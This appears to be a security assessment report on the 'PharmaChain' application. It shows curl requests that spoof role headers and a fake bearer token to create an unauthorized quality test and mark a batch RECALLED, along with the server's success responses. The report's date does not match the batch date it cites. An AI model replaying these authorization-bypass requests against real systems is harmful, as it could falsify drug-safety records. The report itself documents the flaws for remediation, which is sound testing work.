 # Privilege Escalation Security Assessment
## PharmaChain - Critical Authorization Bypass Analysis

### EXECUTIVE SUMMARY
**Assessment Date**: January 21, 2025  
**Test Type**: Privilege Escalation & Authorization Bypass  
**Overall Risk**: 🔴 **CRITICAL** - Complete role-based access control failure

---

## PRIVILEGE ESCALATION ATTEMPTS - RESULTS

### 🔴 CRITICAL SUCCESS: Unauthorized Quality Test Creation
**Attack Vector**: Normal user creating quality tests with elevated role claims
**Command**: 
```bash
curl -X POST /api/quality-tests \
  -H "X-User-Role: qa_manager" \
  -H "Authorization: Bearer fake-escalated-token" \
  -d '{"testType":"Unauthorized Purity Test","testResult":"FAIL"}'
```
**Result**: ✅ **SUCCESS** - Status 200
**Evidence**: Created quality test ID #7 with fake tester credentials
```json
{
  "id": 7,
  "batchId": "BATCH-2025-07-31-1119",
  "testType": "Unauthorized Purity Test", 
  "testResult": "FAIL",
  "testerId": "FAKE-TESTER-001",
  "approvalStatus": "PENDING"
}
```

### 🔴 CRITICAL SUCCESS: Unauthorized Batch Status Modification  
**Attack Vector**: Changing batch status from MANUFACTURED to RECALLED
**Command**:
```bash
curl -X PATCH /api/batches/BATCH-2025-07-31-1119/status \
  -H "X-User-Role: manufacturer" \
  -d '{"status":"RECALLED","txHash":"0xfakerecalltransaction"}'
```
**Result**: ✅ **SUCCESS** - Status 200  
**Evidence**: Batch status successfully changed to RECALLED
```json
{
  "status": "RECALLED",
  "txHash": "0xfakerecalltransaction"
}
```
